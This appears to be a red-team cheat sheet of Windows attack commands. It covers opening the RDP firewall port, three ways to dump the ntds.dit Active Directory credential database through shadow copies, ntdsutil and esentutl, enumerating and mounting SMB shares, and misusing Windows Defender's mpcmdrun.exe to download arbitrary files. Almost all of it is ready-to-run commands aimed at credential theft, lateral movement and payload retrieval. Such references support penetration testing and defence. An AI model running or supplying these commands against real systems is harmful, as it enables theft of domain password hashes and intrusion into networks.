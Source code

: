 ## firewall open port RDP
```
netsh firewall add portopening TCP 3389 "Remote Desktop"
```

% windows, ntds.dit
## dump ntds.dit (Windows >= 2008 server) - method 1
```
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```
## dump ntds.dit (Windows >= 2008 server) - method 2
```
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```
## dump ntds.dit (Windows <= 2003 server)
```
net start vss && vssadmin create shadow /for=c: && vssadmin list shadows && copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\temp
```

% windows, smb, share
## list of computer
```
net view
```

## list of computer shares on the domain
```
net view /all /domain <domain_name>
```

## list share of a computer
```
net view \\<ip> \ALL
```

## mount share locally
```
net use x: \\<ip>\<share_name>
```

## check current share
```
net share
```

% windows, file, download
## windows download file with windows defender
```
"c:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\mpcmdrun.exe" -DownloadFile -url <url> -path <result_file>
```
